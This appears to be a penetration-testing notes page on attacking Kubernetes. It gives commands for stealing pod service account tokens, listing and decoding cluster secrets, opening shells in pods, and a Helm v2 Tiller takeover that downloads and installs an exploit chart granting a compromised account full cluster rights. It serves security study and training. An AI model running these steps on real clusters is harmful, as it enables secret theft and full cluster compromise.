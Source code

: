 ```yaml
---
description: >-
  Container Orchestration for managing big scalable infrastructure of
  containerized applications
---
```


# Kubernetes

{% embed url="https://kubernetes.io/docs/reference/glossary/?fundamental=true" %}
Description of many common terminology in the Kubernetes world
{% endembed %}

The way of attacking a Kubernetes cluster is similar to attacking Windows Active Directory:

1. Find a **vulnerability** in an application (RCE, SSRF, SSH, etc.)
2. Perform **Lateral Movement** to access more pods and nodes with higher privileges
3. Reach the **Highest Privileges** to do anything an attacker wants

## Initial Access

The `/var/run/secrets/kubernetes.io/serviceaccount/token` file (sometimes `/run` instead of `/var/run`) on a Kubernetes pod contains a Service Account Token in the form of a [JSON Web Token](https://jwt.io/). It can be decoded, and the payload tells you exactly who or what the account belongs to:

<figure><img src="../.gitbook/assets/image (1) (2).png" alt=""><figcaption><p>Decoded k8 Service Account Token (<a href="https://medium.com/swlh/kubernetes-attack-path-part-2-post-initial-access-1e27aabda36d">source</a>)</p></figcaption></figure>

This token can be used for **Lateral Movement** in the rest of the cluster and interact with the API server, and due to being in the internal network, a lot more servers are now accessible. A few useful endpoints are:

* `/api/v1/namespaces/default/pods/`: List all pods
* `/api/v1/namespaces/default/secrets/`: List all secrets

These can be requested with the found Service Account Token (JWT) as a header:

```bash
curl -v -H 'Authorization: Bearer <TOKEN>' https://<API_SERVER>/...
```

If the machine has `kubectl` installed (or you download a [static binary](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux)), it is also possible to simply use it instead of manual `curl` commands. Some similar and useful commands are:

<pre class="language-shell-session"><code class="lang-shell-session"># # List everything
<strong>$ kubectl get all --token $TOKEN --server $API_SERVER --insecure-skip-tls-verify
</strong><strong>$ kubectl get pods     # List pods
</strong><strong>$ kubectl get secrets  # List secrets
</strong>
# # Execute an interactive shell with a pod
<strong>$ kubectl exec &#x3C;POD_NAME> --stdin --tty  -- /bin/bash
</strong># # Get and decode a secret
<strong>$ kubectl get secret &#x3C;SECRET_NAME> -o jsonpath='{.data.*}' | base64 -d
</strong></code></pre>

## Helm V2 - Tiller

At the time of writing, [Helm](https://helm.sh/) V3 is the newest version, but many clusters still use the outdated V2. This bears some serious security considerations as the Tiller component has full cluster administration RBAC privileges, which can be exploited if we have access to `helm`.&#x20;

Taken from [here](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-9/helm-v2-tiller-to-pwn-kubernetes-cluster-takeover/welcome), you can test the TCP connection on port `44134` and verify the version:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ nc -v tiller-deploy.kube-system 44134
</strong>Connection to tiller-deploy.kube-system 44134 port [tcp/*] succeeded!
<strong>$ helm version
</strong>Client: &#x26;version.Version{SemVer:"v2.0.0", GitCommit:"ff52399e51bb880526e9cd0ed8386f6433b74da1", GitTreeState:"clean"}
Server: &#x26;version.Version{SemVer:"v2.0.0", GitCommit:"b0c113dfb9f612a9add796549da66c0d294508a3", GitTreeState:"clean"}
</code></pre>

To start exploiting this, a ready-to-use template exists that requires some minimal changes:

{% embed url="https://github.com/Ruil1n/helm-tiller-pwn" %}

```shell-session
$ curl -o ./pwnchart.tgz https://github.com/Ruil1n/helm-tiller-pwn/raw/main/pwnchart-0.1.0.tgz
$ tar xvf ./pwnchart.tgz
```

Inside the newly created `./pwnchart` folder there the two `clusterrole.yaml` and `clusterrolebiniding.yaml` files in the `templates/` folder require the following change:

{% code title="templates/*.yaml" %}
```diff
- apiVersion: rbac.authorization.k8s.io/v1beta1
+ apiVersion: rbac.authorization.k8s.io/v1
```
{% endcode %}

As well as the `values.yml` file where the `name:` key needs to be changed to the **name of the service account token** which will gain all privileges. Make sure this is a service account you own:

```diff
- name: default
+ name: compromised-user
```

Finally, after setting this up you can run the command to install it:

```bash
helm --host tiller-deploy.kube-system:44134 install --name pwnchart ./pwnchart
```

After doing so, the `compromised-user` token will have every permission on the cluster and can access anything. Check `kubectl get all` for a list of everything.&#x20;
